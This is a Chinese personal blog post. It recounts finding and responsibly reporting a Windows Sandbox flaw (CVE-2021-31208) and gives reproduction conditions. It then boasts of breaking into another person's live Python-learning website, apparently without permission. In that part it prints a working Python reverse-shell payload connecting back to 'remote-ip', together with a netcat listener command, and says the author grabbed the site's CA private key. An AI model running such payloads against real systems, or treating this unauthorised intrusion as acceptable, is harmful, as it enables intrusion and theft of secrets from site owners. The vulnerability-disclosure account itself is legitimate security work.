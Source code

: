 ```yaml
---
layout: post
title: 论如何发现一个计算机漏洞
tags: [安全, 漏洞, 网络]
---
```


  网络安全？可不只是专业人员的事情。<!--more-->    
  
# 起因
  一个月前我发现了Windows沙箱有个很严重的漏洞，害得我都不敢相信微软产品的安全性了……不过Windows沙箱还是挺好用的，我不希望因为这种安全问题就放弃它，所以我就向微软反馈了这个漏洞。   
  于是昨两天，微软给我发邮箱说这个漏洞已经修好了，顺便感谢了一下我对微软产品安全性的贡献。虽然吧这个感谢也没给钱啥的，但是这个[漏洞的描述页面](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)能把我的名字写上去这个我还是挺高兴的。   
  在我收到这个消息当天，我兴奋的顺手又黑掉了一个网站😂，难不成我的天赋在信息安全上？   
  
# Windows沙箱的漏洞发现过程与复现方法
  在几个月前，我的电脑莫名其妙的被安装上了Microsoft Edge Beta版，我明明从来没有安装过，但是它就是莫名其妙的出现了。这么一安装，我的电脑就有了两个Edge浏览器。像我对电脑上面的东西还是有一点点的洁癖的，我不希望电脑上出现多余的东西，像这种出现两个Edge的问题我肯定是无法忍受。所以呢我就开始想方设法的卸载掉它。   
  一般来说Edge Beta都是手动安装的，所以这种情况在“卸载或更改程序”里应该是可以发现的，但是这个是莫名其妙被安装上的，自然也就不会出现在那个列表之中。接下来我开始搜如何强行卸载掉Edge，网上搜到的答案一般就是在浏览器内核文件夹下找到`Installer`文件夹，然后在这个文件夹下执行命令`.\setup.exe --uninstall --system-level --verbose-logging --force-uninstall`就OK了。结果我明明是去的Beta版下的那个文件夹执行的这条命令，然后它把我正式版的Edge卸掉了……卸掉之后不仅留下了一个删不掉的图标，而且Beta版里也没有我的Cookie和插件……   
  过了两天Windows更新了，更新之后正式版的又给我安装回来了……这真的是不知道怎么说……后来我下了一个Geek Uninstaller总算是把那个困扰我很长时间的Edge Beta卸载掉了。   
  就以上这件事情搞的我很烦躁，烦躁之后就想发泄，发泄又不能对着我的电脑发泄，于是我就打开了Windows沙箱，把Windows沙箱里的Edge给卸载掉了。结果怎么着？我物理机上的Edge也不见了！这说明了啥问题？我在沙箱里做的操作竟然影响到了物理机？后来我经过测试发现，微软似乎把物理机里的`C:\Program Files (x86)\Microsoft\Edge\Application`文件夹映射到了沙箱里，而且没有做任何的限制。这可真是太可怕了，要知道沙箱相当于一个被信任执行危险东西的一个地方，那么使用它的人都是不会考虑里面运行的东西是不是安全的，看来阿三写的代码不行啊。假如我写一个程序，它把`msedge.exe`文件感染了，比如说加个壳啥的，物理机上用Edge的人应该也不少吧，至少市场占有率都已经超过Firefox了，那么在沙箱里Edge被感染的人在物理机上一旦运行，那么物理机将陷入危险的境地。   
  最开始我发现了这个漏洞之后我是在反馈中心里提交的，不过那个看起来貌似一点点用都没有，微软是没有人会去看那个东西的，而且就算看到了也只会静悄悄的修复掉，你的反馈就和垃圾没什么区别。   
  后来我在百度上搜怎么向微软提交漏洞，百度简直就是个垃圾，没有搜到一点点有用的信息，之后看了半天我看到有一个文章说可以给 <secure@microsoft.com> 发邮件来反馈BUG，于是我就用英文写了篇文章来报告这个BUG。
  不过我的方法并不正确，因为微软有专门反馈BUG的网站，也就是[Microsoft Security Response Center](https://www.microsoft.com/zh-cn/msrc/)。你如果直接用邮箱报告他们当然也会回复，但是大概率得不到奖金，因为人家的报告一般都有格式，自己写邮件肯定是不知道要按什么格式写。所以垃圾百度搜给微软报告漏洞根本找不到这个网站，还是我发了邮件之后才知道原来可以在这里报告，所以如果大家以后找到微软的漏洞想报告，千万不要用那个垃圾“反馈中心”，也不要发邮件，最好直接在[这里](https://msrc.microsoft.com/create-report)报告漏洞。   
  另外还有个问题就是如果真的得到了奖金，拿到它也有点麻烦，因为微软不能说是让你发个支付宝收款码之类的，得先注册一个HackerOne或者Bugcrowd的账户，而且从国外提款很麻烦，所以如果不是那种经常能发现漏洞的，或者是在安全公司里的人，基本上这钱就还是别提了。   
## 复现的环境要求
  这个漏洞的大致使用方法读完上面的部分大家应该也都明白了吧，PoC？那种东西我怎么可能会写？傻子都知道怎么测试了吧？所以如果大家想复现这个漏洞首先需要运行在Windows 10的电脑上安装Windows沙箱，最早的有效版本我不太清楚，因为这个漏洞是微软把旧版的Edge完全从电脑上删除开始的，另外目前的话如果想要复现这个漏洞不能安装[KB5003173](https://catalog.update.microsoft.com/v7/site/Search.aspx?q=KB5003173)补丁，如果安装了貌似也可以卸载掉。所以以当前发布这篇文章的时间来看，只要在最新的Windows 10上卸载KB5003173补丁，然后安装Windows沙箱，就可以复现这个漏洞。
## 人生中第一个自己贡献了的CVE
  看来[CVE-2021-31208](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-31208)就是我贡献的了，以后只要在微软的[鸣谢列表](https://msrc.microsoft.com/update-guide/acknowledgement)里搜索Mayx就可以搜到我找到的漏洞了，虽然这个漏洞很简单，但是自己的名字能写到那个列表里也挺令人高兴的啊。   
  
# 那天我黑掉的网站
  5月12日那天，有一名叫做[Kingfish404](https://github.com/Kingfish404)的人Fork了我的博客，结果第一眼看到了那个爬猎聘网的脚本，吓得我还以为这位是我的老师，因为最近我参与的一个项目就是去爬各种招聘网站。总之就是这些原因我对这个人产生了一点点兴趣，就看了看Ta的仓库。看着看着看到了一个可以[在线学习Python的网站源代码](https://github.com/Kingfish404/LearnPython)，我很久以前就很想做一个开源的这种在线运行Python代码然后可以自动批阅的网站，就像Python123那样，就是因为他们那个服务要收费所以就想写个开源的，不过因为如果直接用Python在服务器上运行的话实在是太危险了，所以我想的是写一个使用Docker来运行Python并且评分的平台（也许可以用k8s？），可惜我水平有限，不怎么会用Docker所以就没再管了。但是今天既然看到了那不得拜读一下？结果发现这个人写的就是我说的那种危险方法运行Python脚本的，看了一下代码还用了一个漏洞百出的安全检查函数来防止攻击……总之既然有示例站我们就来搞搞试试看嘛。一般来说这种反弹shell绝对是简单的不得了，不过我也只是知道这个概念，怎么用我还是不太清楚。然后就搜了一下，看到了[这篇文章](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)。嗯……现实中攻击还是要比CTF中攻击有意思，然后我就在我的服务器上执行了一下`nc -lvvp 1234`，在它的代码执行框里执行：
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("remote-ip",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
  就这样我就成功的反弹了一个Shell，虽然吧Ta给的权限不高，但是下个CA证书的私钥还是轻轻松松的。后来我给这个人反馈了一下他就把网站关掉了。   
  所以如果谁有兴趣想亲手试试看怎么反弹Shell也可以下载Ta的代码试一试。   

# 总结
  从以上来看，想找漏洞绝不是一定要学过网络/信息安全的人才能干的事情，至少我不是信息安全专业的，所以只要有能注意到问题的思考方法，要正面面对问题，要刻意触发问题，知道问题出现在哪里，猜测问题可以做什么，那么谁都可以发现漏洞，虽然发现了也不能说是大神吧……但是你看看这把我的名字写到鸣谢里不挺让人开心的吗？
